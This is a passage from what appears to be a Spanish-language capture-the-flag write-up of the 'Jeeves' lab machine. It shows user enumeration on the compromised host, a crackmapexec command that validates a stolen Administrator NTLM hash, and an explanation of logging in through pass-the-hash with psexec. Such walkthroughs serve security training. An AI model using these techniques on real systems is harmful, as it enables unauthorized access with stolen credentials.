 ![](/assets/img/Jeeves/image_7.png)

Como estamos en el sistema vamos a listar usuarios y ver a quien puede pertenecer

```
C:\Users\kohsuke\Documents>net user
net user

User accounts for \\JEEVES

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
kohsuke                  
The command completed successfully.
```

Validamos las credenciales por `smb` y efectivamente es el hash del usuario `Administrator`

```
# crackmapexec smb 10.129.194.239 -u 'Administrator' -H 'e0fb1fb85756c24235ff238cbe81fe00' 
SMB         10.129.194.239  445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.129.194.239  445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

Con `psexec` nos podemos conectar a la máquina víctima usando la técnica de `Pass the hash`, la primera parte del hash llamado `LT` la podemos omitir y se puede usar solamente la segunda parte llamada `NT` (habría que dejar los `:`, el input sería > `:e0fb1fb85756c24235ff238cbe81fe00`)

